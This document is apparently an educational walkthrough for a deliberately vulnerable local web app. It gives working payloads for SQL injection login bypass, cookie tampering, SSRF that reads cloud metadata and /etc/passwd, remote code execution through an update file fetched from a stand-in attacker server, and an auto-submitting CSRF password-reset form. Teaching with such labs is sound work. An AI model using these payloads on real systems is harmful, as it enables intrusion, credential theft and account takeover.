 # Web Application Security Testing Tutorial

⚠️ **For Educational Purposes Only** ⚠️

This guide will walk you through the process of testing various security vulnerabilities in a web application. We'll go step by step, explaining what each vulnerability is, how to find it, and how to exploit it.

## Step 1: Initial Reconnaissance

Before we start exploiting vulnerabilities, we need to understand what we're working with. Let's discover what endpoints are available.

### 1.1 Discovering Endpoints

There are three main ways to discover endpoints. Let's try each one:

1. First, visit `/robots.txt`:

   ```
   GET http://localhost:5001/robots.txt
   ```

   This file is meant to tell search engines what not to index, but it often reveals sensitive endpoints. Look at the "Disallow" entries - these are the paths the application doesn't want to be public, which makes them interesting for us!

2. Next, check `/sitemap.xml`:

   ```
   GET http://localhost:5001/sitemap.xml
   ```

   The sitemap shows all public endpoints. Compare these with the robots.txt entries - any differences?

3. Finally, the application has a debug endpoint that lists ALL routes:
   ```
   GET http://localhost:5001/endpoints
   ```
   This gives us the most complete picture, including HTTP methods and parameters.

Take notes of interesting endpoints, especially:

- Admin endpoints (`/admin/...`)
- API endpoints
- Debug endpoints
- Backup/system endpoints

## Step 2: Testing Authentication

Now that we know what endpoints exist, let's try to bypass authentication.

### 2.1 Default Credentials

1. First, try these common credentials:

   ```
   admin:admin123
   admin:password
   admin:admin
   root:root
   test:test
   ```

2. We got lucky! `admin:admin123` works. Always check for default credentials first - it's surprising how often they work.

### 2.2 SQL Injection in Login

The login form is vulnerable to SQL injection. Let's try simple payloads:

1. Basic Authentication Bypass:

   ```
   Username: ' or 1=1 --
   Password: anything
   ```

2. Login as Admin:

   ```
   Username: admin
   Password: ' or '1'='1
   ```

3. Another Admin Bypass:

   ```
   Username: admin
   Password: ' or 1=1 --
   ```

4. Using OR with Both Fields:
   ```
   Username: ' or 1=1 or '
   Password: ' or 1=1 or '
   ```

### Tips for SQL Injection:

1. Keep it extremely simple - avoid complex SQL
2. Try injecting in either username or password field
3. Use single quotes (') to break out of strings
4. Use -- to comment out the rest (with a space after --)
5. Avoid using special SQL keywords like UNION or SELECT

### 3.1 Search Function SQL Injection

The search function is simpler to exploit:

1. Basic Injection:

   ```
   ' or '1'='1
   ```

2. Show All Users:

   ```
   ' or 1=1 --
   ```

3. Always True Condition:
   ```
   anything' or 'x'='x
   ```

## Step 4: Session Attacks

The application has several session-related vulnerabilities.

### 4.1 Cookie Manipulation

1. Login as a normal user and check your cookies. You'll see:

   ```
   is_admin=false
   current_user=your_username
   ```

2. Using your browser's developer tools, change these to:

   ```
   is_admin=true
   current_user=admin
   ```

3. Refresh the page - you now have admin access!

### 4.2 Session Fixation

1. Get a session ID before logging in:

   ```
   GET /fixation-login
   ```

   Note your session cookie.

2. Login through `/fixation-login`
   The session ID stays the same - this is the vulnerability!

## Step 5: Server-Side Request Forgery (SSRF)

The application has two SSRF vulnerabilities. Let's test them:

### 5.1 Basic SSRF

1. Try the website checker:

   ```
   GET /check-website?url=http://localhost:22
   ```

   This scans for SSH!

2. Try accessing AWS metadata:

   ```
   GET /check-website?url=http://169.254.169.254/latest/meta-data
   ```

   This could expose cloud credentials!

3. Read local files:
   ```
   GET /check-website?url=file:///etc/passwd
   ```

### 5.2 Avatar SSRF

The avatar fetcher has similar vulnerabilities:

```
GET /fetch-avatar?url=file:///etc/passwd
GET /fetch-avatar?url=http://localhost:22
```

## Step 6: Remote Code Execution

The update mechanism is vulnerable to RCE:

1. Create a malicious JSON file:

   ```json
   {
     "version": "2.0",
     "commands": ["id", "whoami", "cat /etc/passwd"]
   }
   ```

2. Host it somewhere (or use a request bin service)

3. Submit the update:

   ```
   POST /apply-update
   Content-Type: application/x-www-form-urlencoded

   update_url=http://your-server/malicious.json
   ```

## Step 7: Cross-Site Request Forgery (CSRF)

The password reset functionality has no CSRF protection:

1. Create `csrf.html`:

   ```html
   <form
     id="csrf"
     action="http://localhost:5001/admin/reset-password"
     method="POST"
   >
     <input type="hidden" name="username" value="admin" />
     <input type="hidden" name="password" value="hacked" />
   </form>
   <script>
     document.getElementById("csrf").submit();
   </script>
   ```
